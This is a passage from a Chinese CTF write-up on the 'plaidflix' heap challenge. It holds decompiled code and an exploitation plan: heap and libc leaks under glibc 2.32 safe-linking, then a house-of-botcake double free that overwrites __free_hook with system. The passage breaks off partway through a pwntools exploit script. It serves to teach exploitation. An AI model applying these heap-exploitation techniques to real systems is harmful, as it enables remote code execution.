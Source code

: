 此外，还提供了`add_detail`功能：

```
int add_detail()
`{`
    int result; // eax
    void *v1; // [rsp+8h] [rbp-8h]

    if ( entered )
        return puts("\nYou have already entered your contact informaion!");
    v1 = malloc(0x120uLL);
    puts("\nHow can we reach you in case of questions?");
    printf(format);
    result = (unsigned int)read_str((__int64)v1, 0x120uLL);
    entered = 1;
    return result;
`}`
```

这里有一次`malloc(0x120uLL);`的机会，后续利用会用到。

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E6%80%9D%E8%B7%AF"></a>利用思路
1. 首先利用上面提到的`add_friend`，`share`，`delete_friend`，`show_movie`将`chunk-&gt;fd`给leak出来，配合一下glibc 2.32中`chunk-&gt;fd = (chunk &gt;&gt; 12) ^ next_chunk`，如果tcache里只有一个chunk，那么`chunk-&gt;fd`就是`chunk &gt;&gt; 12`，从而可以leak出heap地址。
1. 再利用上面同样的方法，leak出`unsorted bin-&gt;fd`，从而拿到libc地址。
1. 最后利用`delete_count`中的double free，由于早在glibc 2.29中就有对tcache double free的检测了，所以这里通过house of botcake的利用方法，将某一个victim chunk首先合并到unsorted bin中去，再free到tcache中去；之后利用`add_detail`从unsorted bin中割出0x130的chunk，从而可以写到该victim chunk的`fd = __free_hook ^ (chunk &gt;&gt; 12)`，分配到`__free_hook`写为`system`即可。
### <a class="reference-link" name="exp"></a>exp

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys, os, re

context(arch='amd64', os='linux', log_level='debug')

_proc = os.path.abspath('./plaidflix')
_libc = os.path.abspath('./libc-2.32.so')
libc = ELF(_libc)
elf = ELF(_proc)

p = remote('plaidflix.pwni.ng', 1337)

# menu
choose_items = `{`
    "add": 0,
    "delete": 1,
    "show": 2,
    "share": 3
`}`

def leave_name(name):
    p.sendlineafter("What is your name?\n&gt; ", name)

def choose(idx):
    p.sendlineafter("&gt; ", str(idx))

def add_movie(title, stars):
    choose(0)
    choose(choose_items['add'])
    p.sendlineafter("\nWhat movie title do you want to add?", title)
```